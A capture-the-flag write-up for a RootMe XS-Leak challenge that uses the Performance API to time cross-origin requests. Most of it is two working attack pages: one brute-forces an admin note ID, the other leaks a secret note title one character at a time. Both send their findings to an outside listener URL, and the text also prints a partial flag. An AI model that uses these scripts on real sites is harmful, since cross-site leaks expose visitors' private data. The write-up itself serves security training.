

# XSLeak - Abusing Performance API - RootMe

## **Overview**

In this task, we will exploit a timing side-channel vulnerability in a web application's note search functionality. The application shows different response times based on the validity of the input, allowing us to infer sensitive information through timing attacks. First, we need to identify the admin user's ID.

## **Performance API Overview**

The Performance API provides detailed timing data about the performance of web applications. Using `performance.now()`, the script can capture timestamps with sub-millisecond accuracy. This precision is crucial in timing attacks, where the difference in processing time between valid and invalid inputs is often minimal.

Now we can see that when a valid character is appended to the URL, the server takes more time to respond compared to when an invalid character is appended. This likely results from additional server-side processing for valid inputs, such as database queries or data rendering, which are not triggered by invalid inputs. By measuring these timing differences, the script can deduce the correct characters one by one.



## **Finding the Admin User ID**

To find the admin user's ID, we can brute-force possible user IDs by probing the server and monitoring the responses. The script below performs this task by injecting scripts into the page and checking which IDs trigger a response.

### **Admin User ID Brute-force Script**

```html
<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <title>Find Admin ID</title>
</head>
<body>
<script type="text/javascript">
const listener = 'https://en0z1k1c8dwr9e.x.pipedream.net/';

function gotIt(id) {
    fetch(listener + '/?id=' + id, {"method": "GET", "mode": "no-cors"});
}

function probeError(url) {
    let script = document.createElement('script');
    script.src = url;
    script.onload = () => gotIt(url.split('/').pop());
    document.head.appendChild(script);
}

for(let i = 350; i <= 400; i++) {
    probeError(`https://web-client-ch56.challenge01.root-me.org:58056/notes/${i}`);
}
</script>
</body>
</html>

```

Once the admin ID is discovered, we can perform a timing attack to extract sensitive information by measuring the response time of different requests.

```html
<!DOCTYPE html>
<html>
<head>
    <title>Leak</title>
</head>
<body>
<script>
function sleep(ms) {
    return new Promise(resolve => setTimeout(resolve, ms));
}

async function sendCharacterToEndpoint(char, titleSoFar) {
    const img = new Image();
    img.src = `https://en0z1k1c8dwr9e.x.pipedream.net/?flag=${titleSoFar}`;
    document.body.appendChild(img);
}

async function measureLoadTime(url) {
    return new Promise((resolve) => {
        const start = performance.now();
        const image = new Image();
        image.src = url;
        image.onerror = function() {
            const end = performance.now();
            const time = end - start;
            resolve(time);
        };
    });
}

async function leak() {
    const possibleChars = "!\"#$%&'()*+,-./0123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ[\\]^_`abcdefghijklmnopqrstuvwxyz{|}~";
    const targetOrigin = 'https://web-client-ch56.challenge01.root-me.org:58056/notes/392/';
    let discoveredTitle = 'zC4R3_4B0UT_+S4MES1T3_C00K13';

    while (true) {
        let foundChar = false;
        for (let i = 0; i < possibleChars.length; i++) {
            const url = targetOrigin + discoveredTitle + encodeURIComponent(possibleChars[i]);
            const time = await measureLoadTime(url);
            console.log(`This Character: ${possibleChars[i]} took ${time} ms`);
            if (time > 2000) {
                discoveredTitle += possibleChars[i];
                console.log(discoveredTitle);
                foundChar = true;
                await sendCharacterToEndpoint(possibleChars[i], discoveredTitle);
                break;
            }
            await sleep(100);
        }
        if (!foundChar) break;
        await sleep(2000);
    }
    console.log(`Final discovered title: ${discoveredTitle}`);
}

leak();
</script>
</body>
</html>

```

## **Resources**

- [Performance API Documentation](https://developer.mozilla.org/en-US/docs/Web/API/Performance)